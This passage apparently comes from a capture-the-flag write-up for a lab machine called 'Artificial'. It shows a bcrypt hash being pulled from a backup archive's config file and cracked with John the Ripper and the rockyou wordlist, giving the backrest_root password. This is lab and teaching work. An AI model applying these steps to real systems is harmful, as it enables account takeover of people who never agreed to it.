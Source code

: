 ```
gael@artificial:~$ tar -xf /var/backups/backrest_backup.tar.gz -O backrest/.config/backrest/config.json | python3 -m json.tool

{                                                                                                                                
    "modno": 2,                                                                                                                  
    "version": 4,                                                                                                                
    "instance": "Artificial",                                                                                                    
    "auth": {                                                                                                                    
        "disabled": false,                                                                                                       
        "users": [                                                                                                               
            {                                                                                                                    
                "name": "backrest_root",                                                                                         
                "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"             
            }
        ]
    }
}
```

```
gael@artificial:~$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash1.txt

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^           (?)     
1g 0:00:00:11 DONE (2025-09-19 16:39) 0.08347g/s 450.7p/s 450.7c/s 450.7C/s techno..huevos
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Lets use the tool John The Ripper to retrive the password by using the wordlist `rockyou.txt`.

```
john --show hash1.txt 
!@#$%^

1 password hash cracked, 0 left
```

Nice, now we have a username and password but we need to understand where to use them since they are not working on the web application or via ssh.
